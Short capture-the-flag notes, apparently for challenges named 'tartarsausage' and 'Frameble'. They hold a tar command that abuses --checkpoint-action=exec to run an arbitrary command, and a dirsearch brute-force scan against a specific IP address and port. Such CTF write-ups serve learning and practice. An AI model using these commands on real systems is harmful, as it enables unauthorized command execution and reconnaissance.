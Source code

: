 # RED


1.tartarsausage  -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="ls"        dirsearch -u http://35.246.139.54:31660/enhjenhzZGN3YWRzYWRhc2Rhc3NhY2FzY2FzY2FzY2FjYWNzZHNhY2FzY2Fzc2FjY2Fz/ -e php,txt,html


2.Frameble    
